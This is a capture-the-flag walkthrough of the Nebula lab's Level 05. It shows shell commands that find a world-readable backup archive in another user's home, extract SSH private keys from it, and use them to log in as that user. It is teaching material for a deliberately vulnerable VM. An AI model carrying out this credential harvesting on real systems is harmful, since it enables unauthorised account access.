

# Level 05 - Nebula

```
Check the flag05 home directory. You are looking for weak directory permissions

To do this level, log in as the level05 account with the password level05. Files for this level can be found in /home/flag05.
```

```bash
level05@nebula:/home/flag05$ ls -la
total 5
drwxr-x--- 4 flag05 level05   93 2012-08-18 06:56 .
drwxr-xr-x 1 root   root      60 2012-08-27 07:18 ..
drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .backup
-rw-r--r-- 1 flag05 flag05   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag05 flag05  3353 2011-05-18 02:54 .bashrc
-rw-r--r-- 1 flag05 flag05   675 2011-05-18 02:54 .profile
drwx------ 2 flag05 flag05    70 2011-11-20 20:13 .ssh

```

In /home/flag05, we find .ssh and .backup directories. The ssh directory sticks out immediately because it could provide us with the .id_rsa and .authorized_keys files we would need to SSH into the flag05 user. But since the ["read" permission](https://en.wikipedia.org/wiki/File-system_permissions#Traditional_Unix_permissions) isn't set for others on the directory, we can't actually get these files. We can read the files in the .backup directory though, and there's a compressed .tgz file in there.

```bash
level05@nebula:/home/flag05/.backup$ ls -la
total 2
drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .
drwxr-x--- 4 flag05 level05   93 2012-08-18 06:56 ..
-rw-rw-r-- 1 flag05 flag05  1826 2011-11-20 20:13 backup-19072011.tgz
level05@nebula:/home/flag05/.backup$ 
```

We need to move this file somewhere we can decompress it, and then see whats inside.

```bash
level05@nebula:/home/flag05/.backup$ cp backup-19072011.tgz /tmp/backup.tgz
level05@nebula:/home/flag05/.backup$ cd /tmp
level05@nebula:/tmp$ tar zxvf backup.tgz
.ssh/
.ssh/id_rsa.pub
.ssh/id_rsa
.ssh/authorized_keys
```

Now we can just use the id_rsa to login to the flag05 account.

